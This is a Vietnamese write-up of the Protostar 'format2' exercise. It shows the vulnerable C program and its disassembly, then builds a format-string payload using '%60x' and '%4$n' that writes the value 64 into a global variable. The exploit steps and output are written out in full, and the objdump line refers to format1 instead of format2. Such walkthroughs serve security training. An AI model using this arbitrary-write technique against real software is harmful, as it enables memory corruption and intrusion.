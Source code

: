 ```yaml
---
layout: post
title: format2
---
```


Trong bài này, chúng ta sẽ dùng `printf` để exploit chương trình bằng cách ghi chính xác một giá trị vào một địa chỉ trên bộ nhớ.
Về cơ bản, chúng ta sẽ tiếp tục dùng phương pháp ở bài trước, `%n`, nhưng có quan tâm đến giá trị được ghi.

Sau đây là source code và asm code của chương trình format2.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
```asm
0x08048454 <vuln+0>:    push   ebp
0x08048455 <vuln+1>:    mov    ebp,esp
0x08048457 <vuln+3>:    sub    esp,0x218
0x0804845d <vuln+9>:    mov    eax,ds:0x80496d8
0x08048462 <vuln+14>:   mov    DWORD PTR [esp+0x8],eax
0x08048466 <vuln+18>:   mov    DWORD PTR [esp+0x4],0x200
0x0804846e <vuln+26>:   lea    eax,[ebp-0x208]
0x08048474 <vuln+32>:   mov    DWORD PTR [esp],eax
0x08048477 <vuln+35>:   call   0x804835c <fgets@plt>
0x0804847c <vuln+40>:   lea    eax,[ebp-0x208]
0x08048482 <vuln+46>:   mov    DWORD PTR [esp],eax
0x08048485 <vuln+49>:   call   0x804837c <printf@plt>
0x0804848a <vuln+54>:   mov    eax,ds:0x80496e4
0x0804848f <vuln+59>:   cmp    eax,0x40
0x08048492 <vuln+62>:   jne    0x80484a2 <vuln+78>
0x08048494 <vuln+64>:   mov    DWORD PTR [esp],0x8048590
0x0804849b <vuln+71>:   call   0x804838c <puts@plt>
0x080484a0 <vuln+76>:   jmp    0x80484b9 <vuln+101>
0x080484a2 <vuln+78>:   mov    edx,DWORD PTR ds:0x80496e4
0x080484a8 <vuln+84>:   mov    eax,0x80485b0
0x080484ad <vuln+89>:   mov    DWORD PTR [esp+0x4],edx
0x080484b1 <vuln+93>:   mov    DWORD PTR [esp],eax
0x080484b4 <vuln+96>:   call   0x804837c <printf@plt>
0x080484b9 <vuln+101>:  leave
0x080484ba <vuln+102>:  ret
0x080484bb <main+0>:    push   ebp
0x080484bc <main+1>:    mov    ebp,esp
0x080484be <main+3>:    and    esp,0xfffffff0
0x080484c1 <main+6>:    call   0x8048454 <vuln>
0x080484c6 <main+11>:   mov    esp,ebp
0x080484c8 <main+13>:   pop    ebp
0x080484c9 <main+14>:   ret
```

Để tìm được địa chỉ của `target`, dùng objdump như bài trước.

```bash
objdump -t /opt/protostar/bin/format1 | grep target
```

Kết quả cho thấy `target` được lưu tại `0x080496e4`.
Chúng ta sẽ dựng formatted string dựa trên địa chỉ này.
Thành phần sẽ gồm 4 byte địa chỉ ở đầu. Tiếp theo, ta cần ghi thêm lệnh in 60 byte nữa trước khi sử dụng `%n` để ghi vào `target`.
Chúng ta cũng cần biết khoảng cách từ `esp` đến địa chỉ của formatted string.
Cách làm tương tự như bài trước, đó là dùng formatted string có cờ dạng `AAAA` ở đầu và các chuỗi `%x.` để xác định vị trí cờ sau khi in ra.

```bash
python -c "print 'AAAA' + '%x.' * 100"
```

Phép thử cho biết, khoảng cách này là 12 byte.
Và esp cần chạm đến tham số thứ 4 tại thời điểm ghi.
Sử dụng phương pháp đơn giản hóa, ta sẽ xây dựng formatted string thành:

```bash
python -c 'print "\xe4\x96\x04\x08" + "%60x" + "%4$n"'
```

Khi chạy thử, ta sẽ được kết quả như sau.

```bash
format2 <<< $(python -c 'print "\xe4\x96\x04\x08" + "%60x" + "%4$n"')
```
<pre class="memory">
                                                         200
<span style="color:aqua">you have modified the target :)</span>
</pre>

Mục tiêu hoàn thành!

## Ref
```bash
user@protostar:~$ format2 <<< $(python -c 'print "\xe4\x96\x04\x08" + "%60x" + "%4$n"')
                                                         200
you have modified the target :)
```
